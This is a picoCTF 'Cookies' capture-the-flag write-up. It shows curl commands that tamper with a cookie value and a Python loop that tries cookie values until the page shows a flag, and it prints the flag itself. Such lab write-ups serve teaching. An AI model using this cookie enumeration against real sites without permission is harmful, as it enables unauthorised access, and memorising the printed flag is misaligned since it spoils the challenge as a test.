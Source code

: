 # Cookies
Category: Web Exploitation

AUTHOR: MADSTACKS 

## Beginning
By clicking on the given link, you arrive in a website asking you types of cookies. You can try "snickerdoodle" which redirect you in a page saying 
```
	That is a cookie! Not very special though...

	I love snickerdoodle cookies!
```

Okay that's a great first step, now let's press "Inspect" to learn more about this page.

## Inspection
Nothing suspicious in the source code so let's take a look to the Network.
When you refresh the page, you can see requests appear and more specific, the cookies of the GET from /check.
Let's switch to our linux bash and try to modify the parameters.

```bash
	curl http://mercury.picoctf.net:29649/ -s -H "Cookie: name=1;" -L 
```
Here, we send a request to the URL but we had something to the header with the "-H", the name of our cookie. And by modify this value, (1,2,3,...) we are able to switch between each kind of cookie the website has in memory.
Now if you remember the "hint" -> "Who doesn't love cookies? Try to figure out the best one" So there is a best one, let's find out which one.

## Python Script
Now i'm gonna use a python script to try each different kind of cookies but first i want to determine how many there is.
So there is maybe a better way but i just try higher value until it don't work. 29 seems to be the highest. 

I will modify a little bit my command, by adding a grep to find a flag on the html.
```bash
	curl http://mercury.picoctf.net:29649/ -s -H "Cookie: name=1;" -L | grep -i picoCtf{
```

We have everything to start our script. To exec a cmd command, you will just need to import os and use "os.system(cmd)" to exec it, so easy !

```python
import os

cmpt = 1
for i in range (0,30):
        cmd = '''curl http://mercury.picoctf.net:29649/ -s -H "Cookie: name=''' + str(cmpt) + ''';" -L | grep -i PicoCTF{'''
        cmpt = cmpt+1
        os.system(cmd)

```
I think you will understand really easily what this script do. I increment a variable, cmpt to discover each cookies name available.
This is what you must have ```<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>```
And that's it ! Well done ;)